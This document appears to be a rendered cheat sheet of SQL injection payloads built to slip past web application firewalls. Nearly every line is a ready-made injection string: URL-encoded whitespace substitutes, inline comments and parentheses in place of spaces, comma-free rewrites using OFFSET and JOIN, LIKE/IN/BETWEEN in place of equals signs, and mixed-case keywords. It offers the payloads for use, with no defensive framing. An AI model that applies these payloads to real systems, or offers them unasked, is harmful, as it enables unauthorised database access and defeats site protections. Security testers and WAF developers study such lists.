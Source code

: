 ## WAF Bypass

### White spaces alternatives

1. No space allowed (`%20`) - Bypass using whitespace alternatives

```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

2. No space allowed (`%20`) - Bypass using comments

```sql
?id=1/*comment*/and/**/1=1/**/--
```

3. No space allowed (`%20`) - Bypass using parenthesis

```sql
?id=(1)and(1)=(1)--
```

### No comma Allowed

Bypass using `OFFSET`, `FROM` and `JOIN`

```sql
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

### No Equal Allowed

Bypass using `LIKE/NOT IN/IN/BETWEEN`

```sql
?id=1 and substring(version(),1,1)like(5)
?id=1 and substring(version(),1,1)not in(4,3)
?id=1 and substring(version(),1,1)in(4,3)
?id=1 and substring(version(),1,1) between 3 and 4
```

### Case Modification

1. Bypass using uppercase/lowercase (see keyword AND

```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

2. Bypass using keywords case insensitive / Bypass using an equivalent operator

```sql
AND   -> &&
OR    -> ||
=     -> LIKE,REGEXP, BETWEEN, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING
```

